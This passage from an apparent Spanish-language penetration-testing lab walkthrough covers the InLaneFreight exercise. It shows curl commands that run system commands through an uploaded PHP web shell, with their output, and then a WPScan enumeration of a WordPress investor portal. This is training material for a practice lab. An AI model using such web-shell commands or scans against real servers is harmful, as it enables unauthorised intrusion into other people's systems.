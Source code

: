 Ahora podemos usar`cURL`Para interactuar con este shell web y ejecutar comandos en el servidor web.

  Enumeración y explotación web

```shell-session
xnoxos@htb[/htb]$ curl http://dev.inlanefreight.local/uploads/5351bf7271abaa2267e03c9ef6393f13.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Al verificar el direccionamiento IP del host, no parece que hayamos aterrizado dentro de la red interna InLaneFreight ya que la dirección IP no está dentro del alcance de la red interna. Este puede ser un servidor web independiente, por lo que continuaremos.

  Enumeración y explotación web

```shell-session
xnoxos@htb[/htb]$ curl http://dev.inlanefreight.local/uploads/5351bf7271abaa2267e03c9ef6393f13.php?cmd=hostname%20-I

172.18.0.3
```

A partir de aquí, podemos enumerar el host, buscando datos confidenciales, anote otros dos hallazgos:`HTTP Verb Tampering`y`Unrestricted File Upload`y pasar al siguiente anfitrión.

---

## ir.inlaneFreight.local

El siguiente objetivo en nuestra lista es`http://ir.inlanefreight.local`, el portal de relaciones con los inversores de la compañía organizado con WordPress. Para esto podemos consultar el[WordPress - Descubrimiento y enumeración](https://academy.hackthebox.com/module/113/section/1100)Sección de la`Attacking Common Applications`módulo. Encendemos`WPScan`y vea lo que podemos enumerar usando el`-ap`Bandera para enumerar todos los complementos.

  Enumeración y explotación web

```shell-session
xnoxos@htb[/htb]$ sudo wpscan -e ap -t 500 --url http://ir.inlanefreight.local

<SNIP>

[+] WordPress version 6.0 identified (Latest, released on 2022-05-24).
 | Found By: Rss Generator (Passive Detection)
 |  - http://ir.inlanefreight.local/feed/, <generator>https://wordpress.org/?v=6.0</generator>
 |  - http://ir.inlanefreight.local/comments/feed/, <generator>https://wordpress.org/?v=6.0</generator>

[+] WordPress theme in use: cbusiness-investment
 | Location: http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/
 | Latest Version: 0.7 (up to date)
 | Last Updated: 2022-04-25T00:00:00.000Z
 | Readme: http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/readme.txt
 | Style URL: http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/style.css?ver=6.0
 | Style Name: CBusiness Investment
 | Style URI: https://www.themescave.com/themes/wordpress-theme-finance-free-cbusiness-investment/
 | Description: CBusiness Investment WordPress theme is used for all type of corporate business. That Multipurpose T...
 | Author: Themescave
 | Author URI: http://www.themescave.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 0.7 (80% confidence)
```